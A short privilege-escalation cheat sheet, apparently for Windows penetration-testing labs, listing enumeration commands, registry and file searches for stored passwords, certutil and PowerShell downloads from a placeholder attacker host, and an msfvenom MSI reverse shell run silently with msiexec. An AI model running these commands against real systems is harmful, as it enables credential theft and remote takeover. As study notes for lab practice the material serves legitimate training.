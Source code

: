 1. Get sysinfo
2. net users
3. net user joe (are they a part of admin group)
5. schtasks /query /fo LIST /v
6. tasklist /SVC
7. wmic /?
8. reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
9. reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
10. dir /s *pass* == *cred* == *vnc* == *.config*
11. findstr /si password *.xml *.ini *.txt
12.  reg query HKLM /f password /t REG_SZ /s
13.  reg query HKCU /f password /t REG_SZ /s



# File Transfers #
1. certutil -urlcache -split -f http://192.168.XXX.XXX:8000/test.txt test.txt'
2. Invoke-WebRequest -Uri http://192.168.XXX.XXX:8000/test.txt -Outfile test.txt

# Windows powershell privesc checker#
1. https://github.com/itm4n/PrivescCheck
Great Resource: https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html


# MSI # 
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
If you see:
  reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
1. Make a msfvenom reverse shell for msi (see Love HTB) and execute on target for system reverse shell
2. msiexec /q /i shell.msi

